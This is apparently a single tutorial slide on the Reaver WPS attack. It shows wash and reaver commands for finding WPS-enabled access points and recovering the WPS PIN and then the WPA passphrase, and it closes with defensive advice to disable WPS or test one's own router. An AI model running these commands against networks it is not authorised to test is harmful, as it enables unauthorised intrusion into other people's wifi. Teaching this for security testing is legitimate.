

# Reaver(WPS Attack)
First we should make Wifi Interface in Monitor mode.
wash -i wlan0mon (wps locked or not?)
reaver  -c10   -b   01:23:45:67:89:AB  -vv  -i   wlan0mon  -K   1
First, it will catch WPS PIN then will crack WPA (PSK).

How to be secure from WPS Attack?
WPS (On/Off).
Do testing on your wifi or Simply discard routers having WPS configuration.